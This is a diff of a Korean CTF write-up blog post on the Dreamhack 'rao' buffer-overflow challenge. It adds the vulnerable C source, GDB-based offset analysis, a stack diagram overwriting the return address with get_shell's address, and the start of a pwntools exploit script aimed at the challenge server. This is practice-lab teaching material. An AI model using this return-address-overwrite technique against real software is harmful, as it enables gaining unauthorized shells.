

수정

Changed region(s): [[0.0, 0.0, 0.9518, 0.9912], [0.7675, 0.3407, 0.9518, 0.4336]]

diff --git a/_posts/2026-06-17-BOFrao.md b/_posts/2026-06-17-BOFrao.md
@@ -1,11 +1,11 @@
 ---
-title: "basic_exploitation_000"
+title: "rao"
 date: 2026-06-17
 categories: [Writeup, System]
 tags: [System, BOF]
 description: Buffer Overflow - 실행 흐름 조작 writeup
 image:
-    path: /assets/img/posts/bof/logo.png
+    path: /assets/img/posts/rao/logo.png
     alt: thumbnail
 ---
 
@@ -43,41 +43,70 @@ BOF(Buffer Overflow)는 프로그램이 버퍼에 데이터를 쓸 때 버퍼의
 
 ## 문제
 
-`basic_exploitation_000` 문제는 BOF 취약점이 존재하는 서버에 요청을 보내 플래그를 획득하는 문제이다.
+`rao` 문제는 BOF 취약점이 존재하는 서버에 요청을 보내 플래그를 획득하는 문제이다.
 
 ### 서비스 분석
 
-GDB로 `main` 함수를 디스어셈블하면 다음과 같다.
+```c
+#include <stdio.h>
+#include <unistd.h>
+
+void init() {
+  setvbuf(stdin, 0, 2, 0);
+  setvbuf(stdout, 0, 2, 0);
+}
+
+void get_shell() {
+  char *cmd = "/bin/sh";
+  char *args[] = {cmd, NULL};
+
+  execve(cmd, args, NULL);
+}
+
+int main() {
+  char buf[0x28];
+
+  init();
+
+  printf("Input: ");
+  scanf("%s", buf);
+
+  return 0;
+}
+```
+{: file="rao.c"}
+
+소스코드에서 `buf`는 `0x28`(=40)바이트로 선언되어 있다. 그러나 컴파일러가 스택을 정렬하는 과정에서 실제 할당 크기가 달라질 수 있으므로 GDB로 직접 확인한다.
+
+GDB에서 `main`을 디스어셈블하면 `sub rsp, 0x30`으로 스택에 0x30(=48)바이트가 할당되고, `lea rax, [rbp-0x30]`으로 버퍼의 시작 주소가 `scanf`의 인자로 넘어가는 것을 확인할 수 있다. 즉 실제 버퍼 크기는 **48바이트**이다.
 
 ![disas](/assets/img/posts/bof/rao/disas.png)
 
-핵심 부분만 살펴보면 `sub rsp, 0x30`으로 스택에 0x30(=48)바이트의 공간을 할당하고, `lea rax, [rbp-0x30]`으로 버퍼의 시작 주소를 `scanf`의 인자로 넘긴다. 즉, `buf`의 크기는 48바이트이다. 그러나 `scanf`에 길이 제한이 없어 BOF가 발생한다.
+`scanf("%s", buf)`는 입력 길이를 검사하지 않으므로 48바이트를 초과하는 입력을 넣으면 BOF가 발생한다.
 
-또한 `info functions`로 심볼 목록을 확인하면 `get_shell` 함수가 존재한다.
+`info functions`로 심볼 목록을 확인하면 `get_shell` 함수(`0x4006aa`)가 존재한다. 이 함수는 `execve("/bin/sh", ...)`를 직접 호출하므로 Return Address를 이 주소로 덮어쓰면 셸을 획득할 수 있다.
 
-![info functions](/assets/img/posts/bof/rao/functions.png)
-
-`get_shell` 함수는 `0x4006aa`에 위치하며, 이 함수를 실행시키면 셸을 획득할 수 있다.
+![symbols](/assets/img/posts/bof/rao/functions.png)
 
 ### 오프셋 계산
 
 Return Address까지 덮어쓰기 위한 오프셋을 계산한다.
 
 ```
-buf   = 0x30 (48바이트)
-SFP   = 8바이트 (64비트 환경)
-─────────────────────────
-합계  = 56바이트  →  오프셋 = 56
+buf  = 0x30 (48바이트)  ← GDB disas 기준
+SFP  = 8바이트 (64비트 환경)
+──────────────────────────
+합계 = 56바이트  →  오프셋 = 56
 ```
 
-56바이트의 더미 데이터로 `buf`와 SFP를 채운 뒤, 그 자리에 `get_shell()`의 주소를 넣으면 `main`이 반환될 때 `get_shell()`로 실행 흐름이 넘어간다.
+56바이트의 더미 데이터로 `buf`와 SFP를 채운 뒤, 그 자리에 `get_shell()`의 주소를 넣으면 `main`이 반환될 때 실행 흐름이 `get_shell()`로 넘어간다.
 
 ```
 [ 낮은 주소 ]
 +------------------+
 |   buf (48byte)   |  <-- "A" * 48
 +------------------+
-|   SFP (8byte)    |  <-- "A" * 8
+|   SFP  (8byte)   |  <-- "A" * 8
 +------------------+
 |  Return Address  |  <-- p64(0x4006aa) → get_shell()
 +------------------+
@@ -88,7 +117,6 @@ SFP   = 8바이트 (64비트 환경)
 
 ```python
 from pwn import *
-context.log_level = 'debug'
 
 p = remote("host3.dreamhack.games", 11540)
 
